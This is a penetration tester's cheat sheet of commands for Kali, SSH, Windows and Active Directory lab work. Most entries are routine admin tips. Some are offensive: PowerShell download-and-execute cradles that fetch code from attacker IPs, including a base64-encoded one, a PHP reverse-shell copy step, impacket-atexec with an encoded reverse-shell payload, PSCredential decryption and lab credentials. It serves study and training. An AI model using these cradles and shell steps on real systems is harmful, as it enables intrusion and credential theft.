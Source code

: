 # Useful Commands

<details>

<summary>Enable Shared Folder on Kali VM</summary>

```bash
sudo vmhgfs-fuse .host:/ /mnt/hgfs/ -o allow_other -o uid=1000
```

</details>

<details>

<summary>Powershell Download Cradle (Download &#x26; Execute)</summary>

```powershell
iex (New-Object Net.Webclient).DownloadString("http://IP/File")
```

</details>

<details>

<summary>SSH Legacy Connect</summary>

```bash
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss -p 22000 j0hn@10.11.1.252
```

</details>

<details>

<summary>Running cmd.exe as admin user</summary>

```bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

OR

* Win-R --> `cmd.exe` --> Ctrl-Shift-Enter

</details>

<details>

<summary>SSH</summary>

### SSH with specified private key

```bash
chmod 400 /home/kali/.ssh/id_rsa
ssh barry@10.11.67.208 -i /home/kali/.ssh/id_rsa
```

### Don't save SSH hostkey into known hosts

```bash
ssh student@192.168.131.52 -p 2222 -o "UserKnownHostsFile=/dev/null"
```

### Starts SSH server

```bash
systemctl start ssh
```

### To troubleshoot SSH configurations

```bash
/usr/sbin/sshd -T
```

### To show SSH config

```bash
vim /etc/ssh/sshd_config
```

</details>

<details>

<summary>Linux Netw Config</summary>

```bash
ifconfig eth1 192.168.200.10 netmask 255.255.255.0
ip route add 192.168.200.0/24 dev eth1
route add default gw 192.168.100.104 eth1
```

</details>

<details>

<summary>Search for exploits</summary>

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

```bash
searchsploit -m 42341
```

</details>

<details>

<summary>Vim</summary>

### Replace all occurrences from first line to last line.

```bash
:0,$s/search_term/replace_term/g
```

It has the syntax `:start_line_number,end_line_number s/<search_term>/<replace_term>/g`

### Match everything until colon (useful for cleaning hashes)

```regex
^[^:]*:
```

### Fix Indentation Error (python script)

```bash
gg=G
```

</details>

<details>

<summary>cURL POST Request</summary>

```bash
curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
```

</details>

<details>

<summary>Install Perl Packages</summary>

```bash
cpan install Package::Name
```

</details>

<details>

<summary>Copy File Contents To Clipboard</summary>

```bash
xclip -selection c /usr/share/webshells/php/php-reverse-shell.php
```

</details>

<details>

<summary>Terminator Shortcuts</summary>

* Ctrl-Shift-E: Split the view vertically.

- Ctrl-Shift-O: Split the view horizontally.

* Ctrl-Shift-P: Focus on the previous view.

- Ctrl-Shift-N: Focus on the next view.

* Ctrl-D: Close the view where the focus is on.

- Ctrl-Shift-Q: Exit terminator.

</details>

<details>

<summary>Command Prompt Disabled By Administrator</summary>

* Upload [http://didierstevens.com/files/software/cmd-dll\_v0\_0\_4.zip](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)
* Run `cmd.exe` locally

</details>

<details>

<summary>Modifying Windows PATH</summary>

```bash
set PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;%PATH%
```

</details>

<details>

<summary>Remove Windows Directory Recursively</summary>

```bash
rmdir /s /q c:\temp
```

</details>

<details>

<summary>CMD Windows Recursive Directory Listing</summary>

```bash
dir /s /b
```

</details>

<details>

<summary>Error Connecting via xfreerdp</summary>

```bash
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

</details>

<details>

<summary>Saving Terminal Commands</summary>

```bash
script <filename>
exit
```

</details>

<details>

<summary>Snipping Tool (Ctrl-Win-S) Pic Location</summary>

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\Microsoft.ScreenSketch_8wekyb3d8bbwe\TempState
```

</details>

<details>

<summary>Fixing gcc: error trying to exec ‘cc1’: execvp: No such file or directory</summary>

```bash
carlos@malbec:/home/carlos$ gcc root.c -o libmalbec.so -shared -fPIC -w
gcc: error trying to exec ‘cc1’: execvp: No such file or directory

# PATH variable has not been exported. 
# To fix this, we'll export this variable.
carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"

carlos@malbec:/home/carlos$ export PATH

carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"
```

</details>

<details>

<summary>Can't recognize 'whoami' as an internal or external command, or batch script.</summary>

```bash
Z:\home\carlos>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
# --> use linux x86 payload instead!!!
```

</details>

<details>

<summary>Sudo (ALL) NOPASSWD: ALL to root account</summary>

```bash
sudo bash -i
```

</details>

<details>

<summary>List al the available MSFVenom payloads</summary>

```bash
msfvenom --help-formats
```

</details>

<details>

<summary>scp: Received message too long ||   scp: Ensure the remote shell produces no output for non-interactive sessions.</summary>

Means victim is running legacy SCP server --> req us to use legacy SCP protocol

* `-O` switch

```bash
scp -O -i id_rsa authorized_keys max@192.168.199.100:/home/max/.ssh/authorized_keys
```

</details>

<details>

<summary>B64 Encoding Using Powershell</summary>

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

</details>

<details>

<summary>Print Specified lines</summary>

```bash
# Single line 43
sed -n 43p shellcoderunner.ps1 

# Lines 45-52
sed -n 45,52p shellcode_runner_template.cs
```

</details>

<details>

<summary>Running CMD as Admin CMD</summary>

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

</details>

<details>

<summary>Change Linux Owner</summary>

Change to Kali, from root

```bash
chown -hR kali .
```

</details>

<details>

<summary>John Pot File </summary>

```bash
~/.john/john.pot
```

</details>

<details>

<summary>Difference in TTL for Ping</summary>

```
TTL: 63 --> Linux
TTL: 127 --> Windows
```

</details>

<details>

<summary>NT Auth Vs NT System</summary>

NT Auth --> computer object part of AD --> mimikatz will obtain domain creds

NT System (Local Admin):

* If on Domain Controller --> will obtain domain creds
* If on non-DC --> will only obtain local creds

</details>

<details>

<summary>nxcdb (NetExec Database)</summary>

```bash
nxcdb
workspace create <name>
proto smb
creds
```

```bash
workspace list
```

</details>

<details>

<summary>Fixing KRB_AP_ERR_SKEW(Clock skew too great) error</summary>

```
sudo rdate -n 10.10.11.147
```

</details>

<details>

<summary>Fixing KDC_ERR_WRONG_REALM error</summary>

```bash
# WRONG (USING IP ADDR) FOR KERBEROS AUTH:
nxc smb 10.10.11.168 -u miscsvc -p ScrambledEggs9900 -k --shares

# RIGHT (USING FQDN)
nxc smb dc1.scrm.local -u miscsvc -p ScrambledEggs9900 -k --shares
```

In /etc/hosts (must be like this):

```
10.10.11.168	dc1.scrm.local scrm.local
```

</details>

<details>

<summary>Filter to get only unique entries in a file</summary>

```bash
sort hashes | uniq > uniq_hashes
```

</details>

<details>

<summary>Decrypting PSCredentials</summary>

* If the current user encrypted the file, we can decrypt it:

```powershell
$EncString = "<encrypted string>"
$SecureString = ConvertTo-SecureString $EncString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
# Store the decrypted passsword to `$password` variable.
$password = echo $Credential.GetNetworkCredential().password
# View the password
$password
```

</details>

<details>

<summary>PSExec Being Blocked? (Use impacket-atexec)</summary>

```bash
# Upgrade shell to meterpreter/simple ps revshell
impacket-atexec administrator:'<password>'@10.10.158.54 "powershell -e SQBFAF…"
```

</details>

<details>

<summary>If Libcrypto error in SSH</summary>

<figure><img src="../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure>

Ensure that the id\_rsa file has one newline (mandatory!)

<figure><img src="../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Youtube Downloader for Playlist</summary>

```bash
d:\firefox_download\yt-dlp.exe www.youtube.com/watch?list=PLPBVZbjvnjVkIgFavcRiBKbDSricFJeoD -f bestvideo+bestaudio --merge-output-format mkv
```

</details>
